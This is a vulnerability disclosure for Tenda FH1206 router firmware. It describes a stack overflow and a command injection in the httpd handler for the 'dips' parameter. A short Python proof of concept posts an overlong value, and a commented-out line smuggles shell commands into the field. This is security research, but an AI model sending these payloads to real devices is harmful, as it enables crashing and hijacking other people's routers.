



## Overview

- Manufacturer's website: https://www.tendacn.com
- Firmware download website:
  - https://www.tendacn.com/hk/download/detail-2344.html
  - https://www.tendacn.com/us/download/detail-2344.html

## Affected version

Tenda FH1206 V1.2.0.8(8155)

## Vulnerability details

A stack overflow and command injection vulnerability exists in the `fromGstDhcpSetSer` function of program `/bin/httpd` in FH1206 V1.2.0.8(8155). The function gets the `dips` parameter from the user request, and copies content before the last `.` to the stack variable `v21` using `strncpy`.  Because the size depends on where we place the last `.`, this can be used as a stack overflow.



After this, the string is spliced with a character `1`, which will eventually be executed as part of the `ifconfig` command. Because there is no filtering of strings, this leads to a command injection vulnerability.



## PoC

```python
import requests

IP = '192.168.244.3'

url = f"http://{IP}/goform/GstDhcpSetSer"

data = {
    "dips": "a"*0x1000 + '...'
    # "dips": ";echo pwned;ls;" + '...'
}

ret = requests.post(url,data=data)
```

Here is a screenshot of a stack overflow being successfully exploited:


